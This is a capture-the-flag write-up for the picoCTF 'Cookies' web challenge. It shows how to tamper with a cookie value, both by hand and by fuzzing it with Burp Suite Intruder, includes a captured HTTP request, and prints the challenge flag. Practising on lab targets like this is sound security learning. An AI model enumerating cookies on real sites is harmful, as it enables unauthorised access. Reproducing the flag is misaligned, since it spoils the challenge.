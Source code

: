 # picoGym Level 173: Cookies 🧠🧠🧠
Source: https://play.picoctf.org/practice/challenge/173

## Goal
Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:29649/

## What I learned
```
Burp Suite Intruder
```

![alt text](../static/pico173.png "Burp Suite")

## Solution
```
https://webshell.picoctf.org/

Method 1: Brute Force
Inspect → Application → Cookie

Name        Value
name        -1 👀

# Change Value to 18: picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7} 🔐

Method 2: Burp Suite Intruder
Proxy: Open Browser: http://mercury.picoctf.net:29649/
Proxy: Intercept on
Browser: snickerdoodle SUBMIT

# Request
POST /search HTTP/1.1
Host: mercury.picoctf.net:29649
Content-Length: 18
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://mercury.picoctf.net:29649
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://mercury.picoctf.net:29649/
Accept-Encoding: gzip, deflate, br
Cookie: name=-1 👀
Connection: keep-alive

name=snickerdoodle

# Note: Remember to Forward ⭐
# Send to Intruder (Look on Right)
# Select the variable you want to attack and click Add $ button
Payload Type: Numbers

Payload configuration
Type: Sequential
From: -1
To: 20
Step: 1

Start attack
# Look for strange Length (means modification)
# Double click to see Request/Response
picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7} 🔐
```

## Flag
picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}

## Continue
[Continue](./picoGym0004.md)